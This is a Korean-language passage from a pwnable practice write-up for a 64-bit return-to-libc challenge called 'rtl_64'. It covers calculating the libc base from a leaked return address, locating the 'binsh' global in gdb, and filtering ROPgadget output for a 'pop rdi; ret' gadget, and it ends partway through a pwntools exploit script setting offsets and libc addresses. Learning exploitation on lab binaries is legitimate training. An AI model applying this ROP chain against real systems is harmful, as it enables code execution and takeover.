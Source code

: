 ```sh
```

하지만 첫 번째 입출력에서 main 함수의  leak한 ret주소와 `__libc_start_call_main`+128의 주소는 서로 다름
왜냐하면 전자는 실행 중 주소이고, 후자는 라이브러리 상의 주소로, 메모리에 적재되기 이전 주소이기 때문
즉, 이 정보들을 이용해 라이브러리의 시작 위치 libc_base를 계산할 수 있음

binsh은 전역변수이기 때문에 다음과 같이 구할 수 있음
```sh
gef➤  info variables 
All defined variables:

Non-debugging symbols:
...
0x0000000000404010  data_start
0x0000000000404018  __dso_handle
0x0000000000404020  binsh
0x0000000000404028  __TMC_END__
0x0000000000404028  __bss_start
0x0000000000404028  _edata
0x0000000000404028  completed
0x0000000000404030  _end
gef➤  
```

마지막으로 지금 상황에 적절한 가젯을 찾아야 하는데, `system`함수에 첫 번째 인자에 대한 설정만 해주면 되므로,
`pop rdi; ret` 형태의 가젯을 찾으면 됨(0x000000000002a3e5)
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/rtl_64]
└─$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6|grep "pop rdi"
0x00000000000ba2f4 : adc byte ptr [rsi + 0xf], ah ; outsd dx, dword ptr [rsi] ; pop rdi ; and byte ptr [rsi + 0xf], ah ; out dx, eax ; jmp 0x677ab268
0x00000000000ba514 : adc byte ptr [rsi + 0xf], ah ; outsd dx, dword ptr [rsi] ; pop rdi ; and byte ptr [rsi + 0xf], ah ; out dx, eax ; jmp 0x677ab488
0x0000000000125bea : adc esi, dword ptr [rcx + rax - 0x3d] ; xor ebp, ebp ; pop rax ; pop rdi ; call rax
0x000000000010610b : add al, ch ; pop rdi ; and dh, dl ; jmp qword ptr [rsi + 0xf]
0x0000000000162424 : add al, ch ; push rsi ; pop rdi ; in al, dx ; jmp qword ptr [rsi + 0xf]
0x00000000001723cc : add al, ch ; scasb al, byte ptr [rdi] ; pop rdi ; jmp 0x1723d1
...
0x0000000000175b44 : pop rdi ; pop r8 ; mov r14, rax ; jmp 0x175a42
0x000000000002a745 : pop rdi ; pop rbp ; ret
0x000000000002a3e5 : pop rdi ; ret
0x00000000000eb96d : pop rdi ; retf
0x000000000004c75f : pop rdi ; sbb dword ptr [rax], eax ; jmp 0x4b810
0x00000000000f79cf : pop rdi ; sete cl ; or eax, ecx ; jmp 0xf7965
0x00000000000f7b25 : pop rdi ; sete dl ; or eax, edx ; jmp 0xf7ab3
...
```

- exploit
```python
from pwn import *

p=process('./rtl_64')
#p=gdb.debug('./rtl_64')
#context.log_level='debug'

buf_size=0x40
sfp_size=0x8
binsh=0x404020

main_ret_addr=0x40119a

libc_system=0x50d70
libc_start_main=0x29d90
libc_pop_rdi_ret_gdt=0x2a3e5
```